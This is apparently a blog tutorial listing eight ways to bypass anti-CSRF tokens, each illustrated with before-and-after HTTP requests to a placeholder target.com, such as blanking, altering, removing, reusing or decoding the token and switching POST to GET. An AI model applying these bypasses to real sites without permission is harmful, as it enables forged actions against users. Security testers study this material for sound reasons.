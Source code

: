 <a href='https://zero-eg.com/'>Click heret
---
title: Bypass CSRF
author: Elsfa7-110
categories: [csrf, Tutorial]
tags: [csrf]
pin: true
---
# Bypass CSRF Token
1. Change single character
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaab
```

2. Sending empty value of token
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=
```

3. Replace the token with same length
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaabaa
```
4. Changing POST / GET method
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
GET /register?username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa HTTP/1.1
Host: target.com
[...]
```

5. Remove the token from request
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456
```

6. Use another user's valid token
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=ANOTHER_VALID_TOKEN
```

7. Try to decrypt hash
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=MTIzNDU2
```
MTIzNDU2 => 123456 with base64

8. Sometimes anti-CSRF token is composed by 2 parts, one of them remains static while the others one dynamic
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=vi802jg9f8akd9j123
```
When we register again, the request like this
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=vi802jg9f8akd9j124
```
If you notice "vi802jg9f8akd9j" part of the token remain same, you just need to send with only static part
